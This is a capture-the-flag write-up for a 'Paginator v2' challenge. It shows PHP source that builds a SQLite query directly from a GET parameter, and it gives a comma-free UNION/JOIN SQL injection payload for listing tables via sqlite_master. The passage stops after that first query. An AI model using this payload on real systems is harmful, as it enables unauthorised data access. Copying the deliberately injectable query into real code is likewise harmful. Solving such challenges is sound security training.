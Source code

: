 ```php
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 9', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 10', 'This is not a flag, but just a boring page.')");
} catch(Exception $e) {
  //var_dump($e);
}


if(isset($_GET['p']) && str_contains($_GET['p'], ",")) {
  [$min, $max] = explode(",",$_GET['p']);
  if(intval($min) <= 1 ) {
    die("This post is not accessible...");
  }
  try {
    $q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";
    $result = $db->query($q);
    while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
      echo $row['title'] . " (ID=". $row['id'] . ") has content: \"" . $row['content'] . "\"<br>";
    }
  }catch(Exception $e) {
    echo "Try harder!";
  }
} else {
    echo "Try harder!";
}
?>

<html>
    <head>
        <title>Paginator v2</title>
    </head>
    <body>
        <h1>Paginator v2</h1>
        <a href="/?p=2,10">Show me pages 2-10</a>
        <p>To view the source code, <a href="/?source">click here.</a>
    </body>
</html>

```

This has the same SQL injection as the previous chal but we cant use commas(,) because the do a split `[$min, $max] = explode(",",$_GET['p']);`
So we need to execute a union to get the flag from other table but without comma. This tricky because a union needs to have the same number o columns of the original query. To get the flag we first executed the following query to get the tables that exist: 

```
3 UNION  SELECT * FROM (SELECT name FROM dbname.sqlite_master) UT1 JOIN  (SELECT id FROM pages WHERE content > 'A' AND content < 'U') UT2 JOIN (SELECT id FROM pages WHERE content > 'A' AND content < 'U') UT3;
```
